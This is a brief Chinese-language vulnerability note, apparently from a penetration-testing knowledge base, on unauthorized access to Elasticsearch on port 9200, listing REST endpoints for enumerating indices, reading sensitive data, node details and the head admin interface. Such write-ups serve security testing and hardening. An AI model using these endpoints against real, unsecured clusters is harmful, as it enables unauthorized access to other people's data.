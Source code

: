 # Elasticsearch 未授权访问

## 漏洞描述

Elasticsearch是用Java开发的企业级搜索引擎，默认端口9200，存在未授权访问漏洞时，可被非法操作数据

## 漏洞影响

```
Elasticsearch
```

## 漏洞复现

访问目标URL : http://xxx.xxx.xxx.xxx:9200/_node

```plain
http://localhost:9200/_cat/indices
http://localhost:9200/_river/_search //查看数据库敏感信息
http://localhost:9200/_nodes         //查看节点数据
http://localhost:9200/_plugin/head/  //web管理界面(head插件)
```

